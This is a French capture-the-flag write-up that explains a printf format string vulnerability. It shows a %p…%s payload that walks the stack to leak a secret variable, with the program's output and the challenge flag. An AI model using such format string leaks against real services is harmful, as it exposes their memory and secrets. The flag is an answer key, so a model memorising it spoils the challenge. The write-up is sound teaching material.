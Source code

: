 # Un certain format

## Difficulté : facile

### Description :

Nous avons découvert un port caché sur les serveurs de la DSI. Lorsque nous leur en avons fait part, ils nous ont simplement répondu "Tant que vous respectez le format, tout va bien". Il semble bien que l'app cache un secret...

### Analyse

On comprend très bien qu'il faut trouver un moyen de lire le contenu de la variable `SECRET`. Seulement, il semble que l'on ne puisse que rentrer une chaîen qui sera ensuite affichée par printf.

Seulement, printf ne fait pas qu'*afficher* une chaîne. La fonction affiche une chaîne formattée, dont les arguments se trouvent sur la pile.
Ainsi "%p%p%s" affichera au format héxadécimal les deux premiers mots sur la pile, puis récupèrera la valeur suivant sur la pile, et ira chercher à l'adresse correspondante une chaîne de charactère.

Là où ça devient intéressant, c'est que les variables définies dans la fonction main sont stockée sur la pile. On peut donc lire la pile jusqu'à tomber sur notre variable SECRET.

### Exploitation

Pour cela, il suffit d'envoyer en paramètre des %x, %p ou autres et des %s quand on obtient une adresse.
Avec `%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p` on obtient la sortie
```
Hello 0x20-(nil)-0x400-0x400-0x7fd36340aae0-0x7fff61b71df8-0x200000000-0xffffffff00000000-0x402049-0xdeadbeef6343cab0-0x402020
```

On remarque le 0xdeadbeef et le flag devrait être situé juste après donc, ens dernière position. On modifie notre payload: `%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%s`

La sortie est alors
```
Hello 0x20-(nil)-0x400-0x400-0x7fa9f9a82ae0-0x7ffcc972e658-0x200000000-0xffffffff00000000-0x402049-0xdeadbeeff9ab4ab0-CTF101{5c1eb9a99fdfbc7d4d70599cacd15ba2}
```
### Solution

CTF101{5c1eb9a99fdfbc7d4d70599cacd15ba2}